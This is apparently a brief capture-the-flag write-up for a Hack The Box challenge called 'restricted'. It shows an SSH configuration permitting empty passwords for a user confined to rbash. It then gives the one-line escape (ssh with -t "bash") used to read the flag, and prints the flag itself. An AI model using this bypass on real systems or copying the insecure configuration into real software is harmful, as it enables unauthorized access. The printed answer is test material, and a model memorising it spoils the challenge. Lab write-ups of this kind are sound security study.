 # restricted

**SOLVED**

```txt
# sshd_config

Match user restricted
    PermitEmptyPasswords yes
```

```txt
#Dockerfile

RUN adduser --disabled-password restricted
RUN usermod --shell /bin/rbash restricted

ENTRYPOINT ["/usr/sbin/sshd", "-D", "-o", "ListenAddress=0.0.0.0", "-p", "1337"]
```

```sh
ssh restricted@165.227.224.40 -p 30346
# can't use shell

ssh restricted@165.227.224.40 -p 30346 -t "bash"
# can run commands though; bash shell popped

cat /flag_8dpsy
```

`HTB{r35tr1ct10n5_4r3_p0w3r1355}`